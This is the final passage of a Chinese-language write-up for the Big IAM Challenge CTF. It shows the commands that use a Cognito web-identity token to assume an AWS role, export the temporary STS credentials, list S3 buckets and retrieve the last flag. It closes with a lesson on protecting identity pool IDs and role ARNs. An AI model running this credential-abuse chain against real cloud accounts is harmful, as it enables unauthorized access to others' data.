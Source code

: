 最后利用上述信息，就可以调用 assume-role-with-web-identity 生成一个 STS 了。

```bash
> aws sts assume-role-with-web-identity --role-arn arn:aws:iam::092297851374:role/Cognito_s3accessAuth_Role --role-session-name teamssix --web-identity-token eyJraWQiOiJ1cy1lYXN0LTEzIiwidHlwIjoi...

{
    "Credentials": {
        "AccessKeyId": "ASIARK7LBOHXDFQ6KRE3",
        "SecretAccessKey": "Wqk43MfgwPM5F7Z9IfFgv24RwHuCVDh8M0swTUyj",
        "SessionToken": "IQoJb3JpZ2luX2VjEND...",
        "Expiration": "2023-07-06T16:36:18+00:00"
    },
    "SubjectFromWebIdentityToken": "us-east-1:453cea83-a2c0-4b64-a7ff-9dc3783701db",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROARK7LBOHXASFTNOIZG:teamssix",
        "Arn": "arn:aws:sts::092297851374:assumed-role/Cognito_s3accessAuth_Role/teamssix"
    },
    "Provider": "cognito-identity.amazonaws.com",
    "Audience": "us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b"
}
```

最后使用环境变量配置这个 STS。

```bash
> export AWS_ACCESS_KEY_ID=ASIARK7LBOHXDFQ6KRE3
> export AWS_SECRET_ACCESS_KEY=Wqk43MfgwPM5F7Z9IfFgv24RwHuCVDh8M0swTUyj
> export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjEND...
```

然后列下当前存储桶，其实这些存储桶就是上面所有题里用到的存储桶。

```bash
> aws s3 ls

2023-06-05 01:07:29 tbic-wiz-analytics-bucket-b44867f
2023-06-05 21:07:44 thebigiamchallenge-admin-storage-abf1321
2023-06-05 00:31:02 thebigiamchallenge-storage-9979f4b
2023-06-05 21:28:31 wiz-privatefiles
2023-06-05 21:28:31 wiz-privatefiles-x1000
```

最后，在 wiz-privatefiles-x1000 存储桶下找到 FLAG 文件。

```bash
aws s3api get-object --bucket wiz-privatefiles-x1000 --key flag2.txt flag2.txt
```

<img width="900" src="/img/1688699331.png"></br>

结束，拿到最后一个 FLAG。

到这里，其实可以得到一个结论，就是在拿到身份池 ID 以及所对应的角色 ARN 时，通过这两条信息，可以获取到对应角色的权限，因此平时应该注意，不要将这些信息泄露。

最后，通过上面这 6 道题，个人觉着还是能学习到不少东西的，在整个过程中需要查阅大量的官方文档，ChatGPT 也是个很好的辅助工具，另外这里也参考了一些其他人的 WP，我所参考的资料都放在参考链接了，在你去做这个 IAM 挑战赛的时候，以上内容或许可以帮助到你。
